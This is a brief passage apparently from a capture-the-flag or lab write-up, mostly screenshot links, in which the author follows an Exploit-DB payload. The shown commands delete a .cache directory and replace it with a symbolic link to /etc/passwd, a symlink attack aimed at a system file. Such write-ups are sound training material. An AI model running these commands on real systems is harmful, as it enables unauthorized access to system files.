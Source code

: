>  Follow the payload in exploit DB,

![](./IMG/70.png)

>  I deleted origin .cache directory
>  Then I created a link to /etc/passwd

```
rm -rf .cache
ln -s /etc/passwd .cache
```

![](./IMG/71.png)


![](./IMG/73.png)

![](./IMG/72.png)
